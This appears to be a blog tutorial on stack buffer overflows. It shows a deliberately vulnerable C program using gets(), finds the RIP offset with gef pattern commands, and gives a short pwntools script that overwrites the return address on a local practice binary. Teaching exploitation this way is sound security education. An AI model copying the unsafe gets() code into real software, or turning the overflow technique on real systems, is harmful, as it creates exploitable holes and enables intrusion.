 ## RIP control using buffer overflow

In case of variables stored on the stack we overflow the program stack and thus we can also overwrite the various registers that are present on the stack.

```c
#include <stdio.h>

void win(){
    printf("You win\n");
}

void vuln(){
    char buffer[40];
    printf("Whats your name?\n");
    gets(buffer);
}

int main(){
    vuln();
}
```

In this case we will analyse the program using `gef`. Lets us generate a pattern and give it as an input to the program to find the offset. To generate the pattern you can use the following command

```bash
pattern create (pattern length)
```
We will generate a pattern of length 100 and after giving it as input to the program we get the following result

<img src="https://raw.githubusercontent.com/manasghandat/manasghandat.github.io/master/assets/img/Images/Intro_to_pwn_2/1.png" alt="gef output">

As we can see we have overwritten the value of various registers and our program has given us `segmentation fault`. It is because we have overwritten the value of `RIP` register. We can find the exact offset of `RIP` register using the `pattern offset` command. The value of `RIP` register is stored after the `RBP` register, so we will find the offset to the `RBP` register and add 8 (size of register in `x64` architecture) to it in order to get the offset of `RIP` register.

```bash
pattern offset $rbp
```

We will get 2 values. From this we will choose the *little-endian* value as it is the architecture of the given challenge and add 8 to it. Using `pwntools` we can do the scripting to send the payload we want.

```py
from pwn import *

elf = context.binary = ELF("./chal",checksec=False)     # Loads the ELF file
p = elf.process()                                       # Starts the process

gdb.attach(p,''' 
    init-gef
''')                                                    # Attaches gdb so we can dynamically debug the challenge

offset = 48+8
payload = b"a"*offset + p64(0xdeadbeef)
p.sendline(payload)              

p.interactive()
```
